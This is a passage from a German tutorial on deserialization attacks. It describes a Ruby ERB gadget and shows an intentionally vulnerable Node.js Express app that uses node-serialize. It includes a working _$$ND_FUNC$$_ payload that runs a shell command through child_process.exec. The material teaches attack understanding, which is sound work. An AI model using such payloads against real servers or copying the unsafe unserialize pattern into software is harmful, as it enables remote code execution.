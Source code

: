 Der Code liest zuerst eine Payload aus einem File aus (der Pfad wird
durch die Variable ARGV bereitgestellt) und erstellt dann ein Dokument
welches ein serialisiertes ERB-Objekt beschreibt. Hier wurde nun src mit
dem Schadcode befüllt und falls die Webapplikation, welche dieses
serialisierte Objekt entgegen nimmt, nun das Objekt deserialisert und
auf die *result* Methode zugreift wird der bösartige Code des Angreifers
ausgeführt. Dies entspricht einer Remote Command Injection, basierend
auf einem Serialisierungsfehler.

### Serialisierungsangriffe in Javascript / Node.js

Ein schönes Beispiel für Serialisierungsangriffe ist folgende *node.js*
Applikation welche die Serialisierungsbibliothek *node-serialize*
verwendet:

    const express = require('express');
    const bodyParser = require('body-parser');
    const serialize = require('node-serialize');

    const app = express();

    app.use(bodyParser.urlencoded({ extended: false }));

    app.post("/api/deserialize", function(req, res) {
        var str = ""+req.body.fubar;
          const todo = serialize.unserialize(str);
          console.log(todo);
          res.send("wohoo!");
    });

    const server = app.listen(3000, function() {
          console.log("Server started! (Express.js)");

            // Beispiel eines "normalen" serialisierten Objekts
            const normal = {
                todo: "some string"
            };
          console.log("serialized normal object" + serialize.serialize(normal));
    });

Bei diesem Beispiel wird vom Server als Parameter ,,fubar” ein
serialisiertes Objekt als Text entgegen genommen, deserialisiert und
ausgegeben. Das erwartete serialisierte Object wird nun über das
Kommandozeilentool *curl* an den Server übertragen:

    $ curl -X POST -d "fubar={\"todo\":\"some string\"}" http://localhost:3000/api/deserialize

    # Ausgabe am Server:
    Server started! (Express.js)
    serialized normal object: {"todo":"some string"}
    serialized attack code: {"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}

    { todo: 'some string' }
